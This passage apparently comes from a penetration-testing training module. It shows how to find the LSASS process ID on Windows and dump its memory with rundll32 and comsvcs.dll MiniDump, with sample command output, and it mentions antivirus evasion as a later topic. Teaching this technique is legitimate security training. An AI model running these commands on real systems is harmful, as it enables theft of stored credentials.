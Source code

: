Before issuing the command to create the dump file, we must determine what process ID (`PID`) is assigned to `lsass.exe`. This can be done from cmd or PowerShell:

### **Finding LSASS PID in cmd**

From cmd, we can issue the command `tasklist /svc` and find lsass.exe and its process ID in the PID field.

```cmd-session
C:\Windows\system32> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
System Idle Process              0 N/A
System                           4 N/A
Registry                        96 N/A
smss.exe                       344 N/A
csrss.exe                      432 N/A
wininit.exe                    508 N/A
csrss.exe                      520 N/A
winlogon.exe                   580 N/A
services.exe                   652 N/A
lsass.exe                      672 KeyIso, SamSs, VaultSvc
svchost.exe                    776 PlugPlay
svchost.exe                    804 BrokerInfrastructure, DcomLaunch, Power,
                                   SystemEventsBroker
fontdrvhost.exe                812 N/A
```

### **Finding LSASS PID in PowerShell**

From PowerShell, we can issue the command `Get-Process lsass` and see the process ID in the `Id` field.

```powershell-session
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```

Once we have the PID assigned to the LSASS process, we can create the dump file.

### **Creating lsass.dmp using PowerShell**

With an elevated PowerShell session, we can issue the following command to create the dump file:

```powershell-session
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

With this command, we are running `rundll32.exe` to call an exported function of `comsvcs.dll` which also calls the MiniDumpWriteDump (`MiniDump`) function to dump the LSASS process memory to a specified directory (`C:\lsass.dmp`). Recall that most modern AV tools recognize this as malicious and prevent the command from executing. In these cases, we will need to consider ways to bypass or disable the AV tool we are facing. AV bypassing techniques are outside of the scope of this module.
